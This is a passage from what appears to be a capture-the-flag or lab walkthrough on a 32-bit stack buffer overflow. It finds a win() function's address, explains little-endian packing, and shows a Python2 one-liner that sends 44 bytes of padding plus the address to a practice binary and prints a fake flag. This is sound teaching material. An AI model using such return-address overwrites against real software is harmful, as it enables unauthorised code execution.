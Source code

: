 ```
gef> x win

0x080491f6 <win>:        0xfb1e0ff3
```

Nice, now we have the address of the `win()` function, we can move onto building our final exploit.

### Step 4: Building the Exploit
For building the exploit, I will present how to do it in both Python3 and Python2 one-liners as well as using `pwntools` to build a fully fledged exploit script (my preferred method).

Something to understand is `Little-Endian` and `Big-Endian`. The binary in this practical uses `Little-Endian` as shown by **checksec**: `i386-32-little`.

**Little-Endian** refers to the bytes being "reversed", whereas **Big-Endian** means that the bytes do not get "reversed". It is somewhat difficult to describe without showing it, so here is a quick example.

**Example:**

- **Memory Address:** `0xDEADBEEF`
- **Byte Breakdown:** `DE AD BE EF`

- **Little-Endian:** `0xEFBEADDE`
- **Big-Endian:** `0xDEADBEEF`

Alright, we know that the binary uses **Little-Endian**, we need to convert the address of the `win()` function into **Little-Endian** and in a way that Python can interpret it.

**win() Function Address:** `0x080491f6`

**Python-Friendly Conversion:** `\xf6\x91\x04\x08`

#### Python2 One-Line Exploit:
Python2 handles printing bytes much better than Python3 does, in the context of Binary Exploitation. We know that the offset is 44 bytes, so we first need to print, you guessed it, 44 bytes. I like to use "A"s, but you can use pretty much any ASCII character you want.

To do this, we can use the multiplication operator in Python (**"*"**).

```
python2 -c 'print "A"*44'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Once we have that, we can just append the Python-friendly conversion of the win address to the end of the A's.

```
python2 -c 'print "A"*44 + "\xf6\x91\x04\x08"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<win() address>
```

Finally, we can pipe the output from our Python2 command into the binary when we run it.

```
python2 -c 'print "A"*44 + "\xf6\x91\x04\x08"' | ./vuln

Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
flag{fake_flag_for_testing}
```
